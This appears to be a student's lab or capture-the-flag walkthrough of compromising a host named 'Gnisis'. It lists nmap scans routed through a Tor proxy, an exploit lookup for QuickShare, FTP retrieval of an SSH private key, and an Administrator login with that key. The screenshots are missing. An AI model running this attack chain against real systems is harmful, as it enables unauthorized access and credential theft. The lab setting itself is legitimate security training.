 ﻿# Gnisis 192.168.2.15
## Andrea Zonnekus 18758119

sudo nmap --vv -Pn -sS -sV 192.168.2.15 --open -oA host\_scan --script="default or safe" --proxies socks4://127.0.0.1:9050

![](gnisis_steps/Aspose.Words.28e4ef7b-da70-4ad9-b485-2bdd1fae2b86.001.png)

![](gnisis_steps/Aspose.Words.28e4ef7b-da70-4ad9-b485-2bdd1fae2b86.002.png)

desktop.ini

![](gnisis_steps/Aspose.Words.28e4ef7b-da70-4ad9-b485-2bdd1fae2b86.003.png)

searchsploit quickshare

![](gnisis_steps/Aspose.Words.28e4ef7b-da70-4ad9-b485-2bdd1fae2b86.004.png)



cat 16105.py

![](gnisis_steps/Aspose.Words.28e4ef7b-da70-4ad9-b485-2bdd1fae2b86.005.png)

ftp 192.168.2.15 -p 8021

![](gnisis_steps/Aspose.Words.28e4ef7b-da70-4ad9-b485-2bdd1fae2b86.006.png)

system

![](gnisis_steps/Aspose.Words.28e4ef7b-da70-4ad9-b485-2bdd1fae2b86.007.png)

get ntuser.ini

![](gnisis_steps/Aspose.Words.28e4ef7b-da70-4ad9-b485-2bdd1fae2b86.008.png)

sudo nmap -sV -sT -sC -Pn -p 445 192.168.2.15 --script=smb\* -oN smb

![](gnisis_steps/Aspose.Words.28e4ef7b-da70-4ad9-b485-2bdd1fae2b86.009.png)

nmblookup -A 192.168.2.15

![](gnisis_steps/Aspose.Words.28e4ef7b-da70-4ad9-b485-2bdd1fae2b86.010.png)

get id\_rsa

![](gnisis_steps/Aspose.Words.28e4ef7b-da70-4ad9-b485-2bdd1fae2b86.011.png)



<https://superuser.com/questions/215504/permissions-on-private-key-in-ssh-folder>

![](gnisis_steps/Aspose.Words.28e4ef7b-da70-4ad9-b485-2bdd1fae2b86.012.png)

sudo chmod 600 id\_rsa

![](gnisis_steps/Aspose.Words.28e4ef7b-da70-4ad9-b485-2bdd1fae2b86.013.png)

sudo chown kali id\_rsa

![](gnisis_steps/Aspose.Words.28e4ef7b-da70-4ad9-b485-2bdd1fae2b86.014.png)

move it to .ssh

![](gnisis_steps/Aspose.Words.28e4ef7b-da70-4ad9-b485-2bdd1fae2b86.015.png)

ssh Administrator@192.168.2.15 -i id\_rsa

![](gnisis_steps/Aspose.Words.28e4ef7b-da70-4ad9-b485-2bdd1fae2b86.016.png)
